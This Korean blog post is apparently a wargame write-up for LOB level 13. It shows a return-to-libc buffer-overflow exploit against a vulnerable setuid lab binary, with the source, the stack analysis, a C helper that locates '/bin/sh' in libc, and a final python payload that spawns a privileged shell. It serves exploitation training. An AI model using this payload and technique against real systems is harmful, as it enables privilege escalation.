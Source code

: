 ```yaml
---
title: BOF/ LOB-level13(darkknight)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 13(darkknight)
**ID : darkknight**  
**PASSWD : new attacker**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level13/1.png)  
사용자 bugbear의 권한의 bugbear파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 bugbear의 권한으로 파일을 실행할 수 있다.**  
**bugbear파일이 쉘을 실행시키도록 한다면 사용자 bugbear의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack betrayed you!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
{% endhighlight %}  

**bugbear.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. argv[1][47]의 값이 \xbf인 경우 "stack betrayed you!!"를 출력하고 프로그램을 종료한다.  
**기존의 공격에서는 argv[1][44]부터 argv[1][47]까지 buffer의 주소 또는 환경변수의 주소등 스택을 사용하였다.**  
**Stack은 0xbfffxxxx로 시작하기 때문에 Stack의 값을 이용하여 문제를 해결할 수 없다.**  
3. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 256Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**RTL(Return to Library)기법 사용**  
what is RTL?  
Return To Library 즉 라이브러리로 돌아가라! 라는 의미를 가지고 있다.  
main의 ret에 Library 함수의 주소를 덮는 방법으로 코드에서 사용하지 않는 함수를 실행시킬 수 있으며 인자전달 또한 가능하다.  
**ret에 system함수의 주소를 덮어 system함수가 /bin/sh를 실행하도록 프로그램 흐름을 조작**  

**RTL을 사용하는 이유?**  
DEP(Data Execution Protection)라는 방어기법 때문에 RTL을 사용하는데 DEP란 스택,힙 같은 영역에 있는 코드가  
w권한 x권한을 동시에 갖지않도록 차단하는 기법이다.  


![그림2](/assets/LOB/level13/2.png)  
gdb로 분석할 때 권한으로부터 자유롭기 위해 bugbear를 복사한다.  

### disassemble  

**스택구조를 파악하기 위해 디버깅을 한다.**  
권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.  
![그림3](/assets/LOB/level13/3.png)  
disassemble 결과  
**ESP -= 44의 연산이 이루진 것을 보아 buf(40) + i(4) 의 공간이 푸쉬됨을 알 수 있다. dummy없음**  

스택구조|
---|
i(4Byte)|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

![그림4](/assets/LOB/level13/4.png)  
print명령어를 사용해 system함수의 주소를 확인한다.

<br />
{% highlight C linenos %}  
#include <stdio.h>

int main(){
    long sysaddr = 0x40058ae0;
    while(memcmp((void*) sysaddr, "/bin/sh", 8)){
        sysaddr++;
    }

    printf("/bin/sh address : %p\n", sysaddr);
    return 0;
}
{% endhighlight %}  
**sysaddr에 system함수의 주소를 대입하고 memcmp함수를 사용해 system함수의 시작주소부터 /bin/sh를 찾을때까지 반복하는 프로그램을 작성한다.**   
system 함수는 어떤 명령을 실행시킬때 /bin/sh 를 실행시켜 원하는 명령을 실행시킨다. 따라서 /bin/sh를 찾을 수 있는것.  

![그림5](/assets/LOB/level13/5.png)  
작성한 소스를 컴파일하여 실행하면 system함수에 대한 /bin/sh주소를 획득할 수 있다.  

![그림6](/assets/LOB/level13/6.png)  
dummy(4) + 인자(4)  
**system함수로 실행할 명령을 인자로 전달할 때 dummy 4byte와 함께 전달해야함을 알 수 있다.**  

### Attack  

system함수의 주소, /bin/sh의 주소, 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./bugbear [dummy(44)] + [system주소(4)] + [dummy(4)] + [/bin/sh주소]**의 형태로 공격.  
**쉽게말해 프로그램이 system함수를 실행하도록 공격하는데, system함수가 /bin/sh를 실행하도록 인자를 전달한 것이다.**  
**또한 RET에 덮을 쉘코드의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림7](/assets/LOB/level13/7.png)  
**페이로드**  
```bash
./bugbear `python -c "print 'A'*44 + '\xe0\x8a\x05\x40' + 'A'*4 + '\xf9\xbf\x0f\x40'"`
```
공격 성공  